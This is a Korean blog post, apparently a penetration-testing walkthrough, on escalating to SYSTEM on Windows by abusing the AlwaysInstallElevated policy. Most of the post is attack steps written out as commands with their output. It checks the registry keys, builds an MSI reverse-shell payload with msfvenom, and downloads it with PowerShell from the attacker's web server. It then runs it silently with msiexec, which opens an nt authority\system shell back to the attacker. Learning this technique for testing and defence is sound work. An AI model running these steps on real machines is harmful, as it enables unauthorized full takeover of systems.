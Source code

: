 ```yaml
---
layout: post
title: windows 폴리시를 악용한 권한 상승
subtitle: AlwaysInstallElevated 폴리시를 악용해서 권한 상승하기
category: knowledge
thumbnail-img: /assets/img/avatar-icon.png
tags: [policy, windows, alwaysinstallelevated,msfvenom,msi]
author: Hong
---
```

윈도우의 권한 상승에 대한 포스팅.

여러 방법들 중 windows의 policy를 악용해 권한 상승하는 방법.

이번에 악용할 폴리시는 AlwaysInstallElevated라는 폴리시다.

이 폴리시를 유효화 해두면 msi 파일을 설치할 때 항상 관리자 권한으로 실행한다는 특징이 있다.
# AlwaysInstallElevated Policy
디폴트 설정은 무효화 되어 있기 때문에 먼저 유효화로 설정이 되어 있는지 확인해봐야 한다.

아래의 코드처럼 reg query로 HKCU와 HKLM의 레지스트리 키를 확인한다. 
```cmd
C:\Users\kuroda\Desktop>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

C:\Users\kuroda\Desktop>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
0x1이라고 나오면 **유효화** 되어 있다는 뜻. 즉, 권한 상승에 이용할 수 있다.

# 리버스쉘을 만든다
이 폴리시는 msi 파일을 설치할 때 작동되기 때문에 msi 파일 형식으로 페이로드를 만들어 줄 필요가 있다.

칼리의 msfvenom을 이용해서 페이로드를 만들어준다.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<로컬IP> LPORT=<포트> -f msi -o shell.msi`

shell.msi라는 리버스쉘 페이로드를 만들었다. 타겟 윈도우 시스템에서 실행해야 하기 때문에 윈도우로 파일을 전송한다. 

kali에서 웹서버를 세운 후 윈도우에서 powershell로 다운로드했다.

`wget http://IP:PORT/shell.msi -outfile C:\Users\kuroda\Desktop\shell.msi`

# msi 파일 실행
이제 공격 서버에서 포트를 리스닝하고 만들어 둔 msi파일을 실행하면 리버스쉘이 열린다.

다음 명령어로 msi를 실행할 수 있다. 왜인지 powershell에서는 실패해서 cmd로 실행했다.

`msiexec /quiet /qn /i shell.msi`

그럼 관리자 권한으로 파일이 실행되기 때문에 공격자 서버에 관리자 권한의 쉘이 연결된다.

```cmd
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

윈도우 폴리시의 설정 이슈를 악용하여 권한 상승을 해보았다.

간단하게 할 수 있기 때문에 초기침투 후 폴리시를 확인해보면 좋을 것 같다.